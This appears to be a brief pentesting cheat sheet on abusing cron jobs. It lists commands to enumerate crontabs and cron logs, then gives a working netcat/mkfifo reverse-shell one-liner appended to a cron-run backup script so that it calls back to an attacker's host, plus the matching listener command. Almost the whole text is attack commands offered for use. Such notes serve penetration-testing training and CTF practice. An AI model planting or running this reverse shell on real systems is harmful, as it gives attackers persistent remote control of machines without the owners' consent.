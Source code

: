 # Cron jobs

_<mark style="background-color:purple;">**Enumerate cron jobs**</mark>_

```powershell
ls -lah /etc/cron*crontab -l
sudo crontab -l
grep "CRON" /var/log/syslog
```

_<mark style="background-color:purple;">**add a reverse shell to cronjob**</mark>_

```powershell
echo >> user_backups.sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {ip} 1234 >/tmp/f" >> user_backups.sh
```

`nc -lvnp 1234`
